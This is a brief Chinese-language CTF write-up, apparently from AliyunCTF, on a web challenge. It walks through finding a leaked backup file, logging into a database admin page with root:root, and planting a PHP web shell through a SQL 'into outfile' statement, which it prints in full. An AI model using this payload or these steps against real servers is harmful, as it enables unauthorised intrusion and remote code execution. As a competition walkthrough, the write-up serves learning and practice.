



地址：[AliyunCTF](https://www.aliyunctf.com/)

完整WP：[先知社区](https://xz.aliyun.com/news/17029)

进去先扫目录，扫到一个`index.php~`，明显~泄露，直接看代码：

通过这段代码，我们能拿到这么几个文件：
```
/var/www/html/cache.php
/var/www/html/ok.php
/var/www/html/error.php
```
直接看ok.php



访问进去，是个数据库的登录页面，root:root直接秒了(主办方赛后说这是用了开源镜像导致的)

后面就很简单了，直接写马就行，绝对路径代码里也有

```
select "<?php eval($_POST[1]); ?>" into outfile "/var/www/html/1.php"
```


